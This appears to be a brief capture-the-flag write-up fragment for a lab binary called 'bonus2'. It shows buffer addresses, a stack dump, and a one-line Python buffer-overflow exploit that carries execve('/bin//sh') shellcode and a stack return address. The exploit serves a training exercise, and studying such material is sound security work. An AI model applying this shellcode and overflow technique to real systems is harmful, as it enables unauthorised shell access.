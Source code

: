buffer1 start: 0xbffff600

buffer2 start: 0xbffff660



0xbffff580:	                                	0xbffff64c
0xbffff590:	0xbffff668	0xb7ff26b0	0xbfffff25	0xb7f5d780
0xbffff5a0:	0xbfffff28	0xb7fff918	0xbffff668	0x08048630


./bonus2 $(python -c 'print("\x34\xf6\xff\xbf" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "B"*15)') $(python -c 'print("C"*23 + "\x30\xf6\xff\xbf")')
